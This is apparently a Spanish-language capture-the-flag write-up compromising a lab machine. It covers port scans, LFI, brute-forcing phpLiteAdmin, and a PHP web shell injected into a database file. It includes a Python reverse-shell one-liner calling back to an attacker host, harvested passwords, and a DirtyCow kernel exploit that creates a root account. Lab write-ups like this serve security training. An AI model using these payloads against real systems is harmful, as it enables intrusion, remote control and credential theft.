








## Puertos abiertos

```
22/tcp    open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.2.22 ((Ubuntu))
111/tcp   open  rpcbind 2-4 (RPC #100000)
|   100000  2,3,4        111/tcp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100024  1          33727/tcp   status
|   100024  1          39824/tcp6  status
33727/tcp open  status  1 (RPC #100024)
```

### Servicio web 80

```
❯ dirsearch -u "http://192.168.0.105/" -w /usr/share/wordlists/dirb/common.txt -t 100 -e php,txt
[...]
[22:58:24] 403 -  285B  - /.hta
[22:58:24] 200 -    8KB - /
[22:58:27] 403 -  289B  - /cgi-bin/
[22:58:28] 301 -  312B  - /css  ->  http://192.168.0.105/css/
[22:58:28] 301 -  316B  - /dbadmin  ->  http://192.168.0.105/dbadmin/
[22:58:30] 301 -  312B  - /img  ->  http://192.168.0.105/img/
[22:58:30] 200 -    8KB - /index
[22:58:30] 200 -    8KB - /index.html
[22:58:31] 301 -  311B  - /js  ->  http://192.168.0.105/js/
[22:58:31] 200 -    1KB - /LICENSE
[22:58:33] 200 -  789B  - /package
[22:58:35] 403 -  294B  - /server-status
[22:58:37] 200 -    8KB - /tools
[22:58:37] 301 -  315B  - /vendor  ->  http://192.168.0.105/vendor/
[22:58:37] 200 -    0B  - /view
```

Directory traversal 

```
http://192.168.0.105/vendor/
```



Local File Inclusion

```
http://192.168.0.105/view.php?page=../../../../../../etc/passwd
```


PHPLiteAdmin

PhpLiteAdmin es una herramienta de código abierto escrita en PHP destinada a manejar la administración de SQLite en la `World Wide Web`. Su conjunto de características, interfaz y experiencia general del usuario es comparable a la de **phpMyAdmin** para `MySQL`.

```
http://192.168.0.105/dbadmin/test_db.php
```



### Ataques de fuerza bruta

#### Hydra

```
❯ hydra -l none -P /usr/share/wordlists/SecLists/Passwords/cirt-default-passwords.txt 192.168.0.105 http-post-form "/dbadmin/test_db.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect password." -f -V -t 50
[...]
[ATTEMPT] target 192.168.0.105 - login "none" - pass "bcpb(serial number of the firewall)" - 581 of 1039 [child 35] (0/0)
[ATTEMPT] target 192.168.0.105 - login "none" - pass "bell9" - 582 of 1039 [child 47] (0/0)
[80][http-post-form] host: 192.168.0.105   login: none   password: admin
[STATUS] attack finished for 192.168.0.105 (valid pair found)
[...]
```

#### Patator

```
❯ patator http_fuzz url="http://192.168.0.105/dbadmin/test_db.php" method=POST body="password=FILE0&login=Log+In&proc_login=true" 0=/usr/share/wordlists/SecLists/Passwords/cirt-default-passwords.txt -x ignore:fgrep="Incorrect password."
23:19:54 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.1 at 2021-10-22 23:19 -05
23:19:54 patator    INFO -                                                                              
23:19:54 patator    INFO - code size:clen       time | candidate                          |   num | mesg
23:19:54 patator    INFO - -----------------------------------------------------------------------------
23:20:00 patator    INFO - 200  16696:-1       0.021 | admin                              |   532 | HTTP/1.1 200 OK
23:20:05 patator    INFO - Hits/Done/Skip/Fail/Size: 1/1039/0/0/1039, Avg: 98 r/s, Time: 0h 0m 10s
```

#### Wfuzz

```
❯ wfuzz -w /usr/share/wordlists/SecLists/Passwords/cirt-default-passwords.txt -u "http://192.168.0.105/dbadmin/test_db.php" -X POST -d "password=FUZZ&login=Log+In&proc_login=true" -c -t 50 --hw 958
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.0.105/dbadmin/test_db.php
Total requests: 1039

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                               
=====================================================================

000000532:   200        483 L    1191 W     16122 Ch    "admin"  
```

Panel de administracion



----

Searchsploit

```
❯ searchsploit php lite admin 1.9.3
----------------------------------------------------------------------------------- ---------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection                                     | php/webapps/24044.txt
----------------------------------------------------------------------------------- ---------------------------
```

basicamente el exploit nos dice que si creamos una base de datos con extension **.php** e introducimos una tabla colocando codigo php en el campo text field este código se interpretará en el navegador abusando de la vulnerabilidad LFI apuntando al archivo de la base de datos creada.

Creando base de datos `shell.php`



Creando tabla




Inyectando código php `'<? system($_REQUEST["cmd"]);?>`



Obteniendo ejecución remota de comandos



----

### Reverse shell www-data

Url: `192.168.0.105/view.php?page=../../../../../../usr/databases/shell.php&cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.107",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Coloco en escucha

```
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.105] 49711
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Adicional:

Panel de administración de `phpLiteAdmin` con hashes de usuarios




```
PASS SQLITE
root : 34kroot34
zico : zico2215@
```

Obteniendo contraseña de usuario **zico** en el archivo de configuración de `WordPress`.

```
[...]
/** MySQL database username */   
define('DB_USER', 'zico');
                                              
/** MySQL database password */                
define('DB_PASSWORD', 'sWfCsfJSPV9H3AmQzw8'); 
                                              
/** MySQL hostname */                         
[...]
```

### Shell como zico

```
❯ ssh zico@192.168.0.105
```

----

## Escalada de privilegios

Kernel exploit

[https://www.exploit-db.com/exploits/40839](https://www.exploit-db.com/exploits/40839)

```
zico@zico:~/test$ ./dirty                                              
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:                   
firefart:fiKBbJoc.sTuE:0:0:pwned:/root:/bin/bash
                                 
mmap: 7fcccc5e2000        
                                 
madvise 0                                                          
                                                                   
whoami                                                             
ptrace 0                                                           
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test123'.
                                                                   
                                 
DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'test123'.
```

```
zico@zico:~/test$ cat /etc/passwd
firefart:fiKBbJoc.sTuE:0:0:pwned:/root:/bin/bash
/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
[...]
statd:x:105:65534::/var/lib/nfs:/bin/false
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
zico:x:1000:1000:,,,:/home/zico:/bin/bash
zico@zico:~/test$ su firefart
Password: 
firefart@zico:/home/zico/test# whoami
firefart
firefart@zico:/home/zico/test# id
uid=0(firefart) gid=0(root) groups=0(root)
```

Forma 2:

Abusando del permiso **sudo**

```
> sudo -l
zico ALL=(root) NOPASSWD: /bin/tar
zico ALL=(root) NOPASSWD: /usr/bin/zip
```
